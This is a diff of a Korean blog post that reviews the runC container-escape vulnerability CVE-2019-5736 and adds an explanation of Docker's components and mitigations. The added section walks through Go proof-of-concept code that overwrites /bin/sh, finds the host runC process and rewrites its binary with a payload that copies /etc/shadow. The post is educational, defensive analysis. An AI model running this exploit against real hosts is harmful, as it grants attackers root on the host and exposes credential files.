

up

diff --git a/blog_tmp/_posts/2019-03-24-runC Container.md b/blog_tmp/_posts/2019-03-24-runC Container.md
@@ -1,10 +1,10 @@
 ---
 layout: post
 current: post
-cover: 'assets/images/linux/jobs/runC_Container/5736-3.png'
+cover: 'assets/images/linux/jobs/runC_Container/5736-4.png'
 navigation: True
 title: CVE-2019-5736 (runC Container 취약점)
-date: 2019-03-25 00:29:00
+date: 2019-03-27 17:43:00
 tags: Posts
 class: post-template
 subclass: 'post tag-linux'
@@ -20,19 +20,32 @@ author: Sulla
 
 그래서 이번 포스팅에서는 해당 취약점에 대하여 리뷰해 보겠습니다.
 
-### **본 포스팅에서는 환경 구축/버전 등의 정보는 제외하겠습니다.**
+## [**본 포스팅에서는 환경 구축/버전 등의 정보는 제외하겠습니다.]**
 
 먼저 **docker**가 뭔지...**runC**가 뭔지에 대해서 알아야겠죠??언제나 그렇듯 최대한 간단하고 필요한 내용만 쉽게 알아보겠습니다.(**귀차니즘** 아닙니다.....)
 
 우선 **docker**란 **Linux** 기반의 **container runtime 오픈소스 플랫폼** 입니다. 쉽게 말해 **Container 관리 플랫폼**이며, **VM**(Virtual Machine)과 비슷한 역할을 수행하지만 쉬운 배포 및 높은 확장성 등의 **접근성**과 메모리 점유등의 **성능**의 차이를 보입니다.("**가상화**"가 목표이긴 합니다.)
 
-**runC**는 **container**의 **생성/실행** 등을 위한 **CLI** 도구입니다. 즉, **container**의 **조작**을 위해 존재 한다고 생각하면 될 것 같습니다.
+<figure>
+  <img data-action="zoom" src='{{ "/assets/images/linux/jobs/runC_Container/5736-1.png" | relative_url }}' alt='[그림 5736-1]'>
+</figure>
+
+Docker의 기본 구성을 위 그림과 같이 표현했습니다. 각각의 역할을 알아 보겠습니다.
+
+- Docker Engine : 사용자와 상호작용을 합니다.
+- Containerd : 직/간접적으로 호스트에서 컨테이너 전체 라이프 사이클을 관리합니다. (이미저 전송 및 저장, 컨테이너 실행 및 관리(runC 사용), 네트워크 인터페이스 관리 등)
+- Containerd-shim : runC를 사용해 컨테이너를 시작된 후에 runC가 종료 되어도 컨테이너가 실행 되도록합니다.
+- runC : 컨테이너를 실행하는 런타임이며, CLI 툴 입니다. (리눅스 커널 네임스페이스, Cgroups(프로세스의 자원 사용을 제한하는 커널 기능), Seccomp(리눅스 커널에서 샌드 박싱 메커니즘을 제공하는 보안 기능), 리눅스 보안 모듈 등)
+
+기본 구성 및 역할에 대하여 알아봤고 **CVE-2019-5736** 취약점에 직접적인 영향을 미치는 runC에 대해서 알아 보겠습니다.
+
+**runC**는 **container**의 **생성/실행** 등을 위한 기본적인 기술이며 **CLI** 도구입니다. 즉, **container**의 **조작**을 위해 존재 한다고 생각하면 될 것 같습니다. **runC**는 Docker, containerd, Podman 및 CRI-O가있는 **컨테이너의 기본 런타임**으로 사용됩니다.
 
 그럼 이번 포스팅의 주인공인 **CVE-2019-5736**에 대해서 알아보겠습니다.
 
 # CVE-2019-5736
 
-해당 취약점은 위에서 알아본 **runC**에서 발생하는 취약점입니다. **컨테이너 내부에서 루트 권한**으로 악의적인 프로세스를 실행할 경우 **runC 버그**를 이용하여 컨테이터를 실행하는 **호스트에 대한 루트 권한**을 탈취하는 취약점입니다. 따라서, 서버에 대한 접근 및 해당 서버의 다른 컨테이너 또한 접근이 가능합니다.
+해당 취약점은 위에서 알아본 **runC**에서 발생하는 취약점입니다. ****컨테이너 내부에서 **루트 권한**으로 악의적인 프로세스를 실행할 경우 **runC 버그**를 이용하여 컨테이터를 실행하는 **호스트에 대한 루트 권한**을 탈취하는 취약점입니다. 따라서, 서버에 대한 접근 및 해당 서버의 다른 컨테이너 또한 접근이 가능합니다. 
 
 쉽게 말해 **악성 컨테이너**를 통해 **호스트 서버의 루트 권한 탈취**가 가능하게 됩니다.
 
@@ -43,36 +56,109 @@ author: Sulla
 
 해당 취약점을 트리거 하기 위해서는 위에서도 언급했 듯 **컨테이너 내부**에 **루트 권한**이 있어야 합니다. 
 
-화면 구성은 위쪽은 **Host Server(이하 HS라 하겠습니다.)**, 아래쪽은 **Container** 입니다.
-
-<figure>
-  <img data-action="zoom" src='{{ "/assets/images/linux/jobs/runC_Container/5736-1.png" | relative_url }}' alt='[그림 5736-1]'>
-</figure>
-
-첫 번째 방법 부터 보도록 하죠. 진행 자체는 굉장히 간단하게 진행됩니다.(물론 저는 삽질 했습니다......Aㅏ.....) 먼저 **HS**쪽에 해당 파일이 없음을 확인 합니다. 후에는 컨테이너에서 악성 파일을 실행하면 준비가 끝납니다. 함정 처럼 **/bin/sh**를 **#!/proc/self/exe** 바꿔놓고 기다리는 단계입니다.
+화면 구성은 위쪽은 **Host Server**, 아래쪽은 **Container** 입니다.
 
 <figure>
   <img data-action="zoom" src='{{ "/assets/images/linux/jobs/runC_Container/5736-2.png" | relative_url }}' alt='[그림 5736-2]'>
 </figure>
 
-그리고 호스트가 컨테이너쪽으로  **docker exec** 명령을 통해 **/bin/sh**의 실행을 명하게 되면 위에서 설치해뒀던 함정이 발동하게 됩니다. 함정 카드..... **(/bin/sh를 쓸것이라 추측하고 세팅 하는겁니다.)**
-다음으로 **runC**의 **PID**를 찾고 **핸들링(O_PATH ,O_WRONLY 플래그 사용)**을 위한 여러 과정을 거치고 최종적으로 호스트의 **runC** 바이너리 파일을 **악성 runC** 로 변조되며 악성 파일에 미리 정의 되있던 행위를 **호스트**쪽에서 **루트 권한**으로 수행하게 됩니다.
+진행 자체는 굉장히 간단하게 진행됩니다.(물론 저는 삽질 했습니다......Aㅏ.....) 먼저 **Host Server**쪽에 해당 파일이 없음을 확인 합니다. 후에는 컨테이너에서 악성 파일을 실행하면 준비가 끝납니다. 함정 처럼 **/bin/sh**를 **#!/proc/self/exe** 바꿔놓고 기다리는 단계입니다.
 
 <figure>
   <img data-action="zoom" src='{{ "/assets/images/linux/jobs/runC_Container/5736-3.png" | relative_url }}' alt='[그림 5736-3]'>
 </figure>
 
-처음에는 없던 shadow 파일이 root 권한으로 생성된 것을 확인할 수 있습니다. 해당파일을 열람시 실제 shadow 파일임을 확인 가능합니다.
+그리고 호스트가 컨테이너쪽으로  **docker exec** 명령을 통해 **/bin/sh**의 실행을 명하게 되면 위에서 설치해뒀던 함정이 발동하게 됩니다. 함정 카드..... **(/bin/sh를 쓸것이라 추측하고 세팅 하는겁니다.)** 
+다음으로 **runC**의 **PID**를 찾고 **핸들링(O_PATH ,O_WRONLY 플래그 사용)**을 위한 여러 과정을 거치고 최종적으로 호스트의 **runC** 바이너리 파일을 **악성 runC** 로 변조되며 악성 파일에 미리 정의 되있던 행위를 **호스트**쪽에서 **루트 권한**으로 수행하게 됩니다.
 
 <figure>
   <img data-action="zoom" src='{{ "/assets/images/linux/jobs/runC_Container/5736-4.png" | relative_url }}' alt='[그림 5736-4]'>
 </figure>
 
-위 과정을 거치면서 **HS**쪽의 runC 파일이 변조됩니다. 해쉬값을 비교하면 쉽게 확인 가능하며 위쪽 해쉬값이 원본이면 아래쪽은 변조된 runC 바이너리의 해쉬값입니다.
+처음에는 없던 shadow 파일이 root 권한으로 생성된 것을 확인할 수 있습니다. 해당파일을 열람시 실제 shadow 파일임을 확인 가능합니다.
+
+<figure>
+  <img data-action="zoom" src='{{ "/assets/images/linux/jobs/runC_Container/5736-5.png" | relative_url }}' alt='[그림 5736-5]'>
+</figure>
+
+위 과정을 거치면서 **Host Server**쪽의 runC 파일이 변조됩니다. 해쉬값을 비교하면 쉽게 확인 가능하며 위쪽 해쉬값이 원본이면 아래쪽은 변조된 runC 바이너리의 해쉬값입니다.
 
 두 번째 방법의 경우는 첫 번쨰와 원리는 같으며 차이점은 악성 docker 이미지를 생성해서 배포하고 피해자는 해당 이미지를 다운받아 실행하게 되면 위에서와 같은 일련의 동작들을 수행하게 됩니다.
 
-보신것처럼 **Container** 쪽에서 **HS**의 **root** 권한으로 악의적인 행위가 가능한 취약점입니다.
+보신것처럼 **Container** 쪽에서 **Host Server**의 **root** 권한으로 악의적인 행위가 가능한 취약점입니다.
+
+어쩌다 이런 일이 생기는지 코드를 보면서 확인 해보겠습니다. (해당 poc코드는 go로 작성 되었습니다.)
+
+    var payload = "#!/bin/bash \n cat /etc/shadow > /tmp/shadow && chmod 777 /tmp/shadow"
+    
+    func main() {
+    	fd, err := os.Create("/bin/sh")
+    	if err != nil {
+    		fmt.Println(err)
+    		return
+    	}
+    	fmt.Fprintln(fd, "#!/proc/self/exe")
+    	err = fd.Close()
+    	if err != nil {
+    		fmt.Println(err)
+    		return
+    	}
+
+우선 **Container**에서 악성 프로세스를 실행하게 되면 위 코드가 실행됩니다. 
+
+1라인의 행위를 위해 아래의 코드들이 쭉 진행됩니다.
+
+코드의 4라인에서 /bin/sh 를 생성 하고 fd에 저장 합니다. 다음으로 9라인에서 #!/proc/self/exe를 fd에 저장 합니다. Fprintln()함수는 첫 번째 인자에 두 번째 인자를 전달하는 기능을 수행 합니다. 첫 번째 인자인 fd는 /bin/sh이며 여기에 /proc/self/exe가 저장 되겠죠.
+
+위 코드의 동작을 해석 하자면 9라인의 **#!/proc/self/exe(**해당 프로세스를 위해 실행된 바이너리를 가리키는 모든 프로세스에 대한 **커널**이 만든 **심볼릭 링크**입니다.**)**는 현재 실행된 프로세스를 어떤놈이 실행 시켰는지에 대해 가리킵니다. 현재 실행된 프로세스는 Host에 의해서 실행된 /bin/sh 이죠. 따라서 /bin/sh을 실행 시킨놈은 Host의 **runC**입니다.
+다시 정리 해본다면, Host에서 Container의 /bin/sh을 **docker exec**를 통해 실행 하는데 이 때 **runC**가 사용 됩니다. 결국 **#!/proc/self/exe**가 가리키는 놈은 **Host의 runC**가 되고 **/bin/sh**는 결국 Host의 **runC**가 됩니다.
+여기가 **CVE-2019-5736** 취약점의 주요 원인이라 판단이 됩니다. **/proc/self/exe**가 가리키는 것에 대해서 **부적절하게 처리함**으로서 위와 같은 행위가 가능해 지는것이죠.
+
+    var found int
+    	for found == 0 {
+    		pids, err := ioutil.ReadDir("/proc")
+    		if err != nil {
+    			fmt.Println(err)
+    			return
+    		}
+    		for _, f := range pids {
+    			fbytes, _ := ioutil.ReadFile("/proc/" + f.Name() + "/cmdline")
+    			fstring := string(fbytes)
+    			if strings.Contains(fstring, "runc") {
+    				fmt.Println("[+] Found the PID:", f.Name())
+    				found, err = strconv.Atoi(f.Name())
+    				if err != nil {
+    					fmt.Println(err)
+    					return
+    				}
+    			}
+    		}
+    	}
+
+다음 코드에서는 runC가 구동 되는 동안 runC를 덮어쓸 수 없기 때문에 이를 해결 하기위한 코드가 짜여져 있는데 이 때 필요한 **runC의 PID를 찾기위한 코드**입니다. /proc/[PID]/cmdline(해당 PID를 갖는 프로세스가 어떤 command로 실행 되었는지를 나타냅니다.)에 있는 모든 파일에서 runC를 찾고 결과적으로 runC의 PID를 확보 합니다.
+즉, 모든 PID를 대상으로 어떤 친구가 runC를 실행 했는지 찾아 내는 과정입니다.
+
+    var handleFd = -1
+    	for handleFd == -1 {
+    		handle, _ := os.OpenFile("/proc/"+strconv.Itoa(found)+"/exe", os.O_RDONLY, 0777)
+    		if int(handle.Fd()) > 0 {
+    			handleFd = int(handle.Fd())
+    		}
+    	}
+    	fmt.Println("[+] Successfully got the file handle")
+    
+    	for {
+    		writeHandle, _ := os.OpenFile("/proc/self/fd/"+strconv.Itoa(handleFd), os.O_WRONLY|os.O_TRUNC, 0700)
+    		if int(writeHandle.Fd()) > 0 {
+    			fmt.Println("[+] Successfully got write handle", writeHandle)
+    			writeHandle.Write([]byte(payload))
+    			return
+    		}
+    	}
+
+다음 코드에서는 위에서 찾아낸 runC의 PID값을 이용해 파일 핸들을 얻어냅니다. 이 핸들을 이용해 **/proc/self/fd/파일 서술자**의 **파일 핸들**을 얻습니다. 해당 파일 핸들을 유지하며 Host의 runC를 악성 runC로 바꾸는 등의 권한을 얻게 됩니다.
+
+위에서의 과정에서 보이듯 **rudC**의 **파일 서술자(/proc/self/exe)**에 대한 처리 미흡으로 권한 상승이 가능해지는 취약점입니다.
 
 # 대응 방법
 
@@ -82,7 +168,8 @@ author: Sulla
 1. **Container root 권한 제한**
 2. **신뢰할 수 없는 이미지 파일 사용 자제**
 3. **runC 등 최신 버전 유지**
-4. .....
+4. **컨테이너 시작 시 호출되는 바이너리의 임시 백업 바이너리 생성**
+5. .......
 
 해당 취약점에 영향을 받는 여러 업체들(Red Hat, runC 관리자, google, Amazon, Docker, debian, ubuntn 등등)은 취약 runC 버전에 대해서 업데이트 한 이미지를 배포중입니다.
 
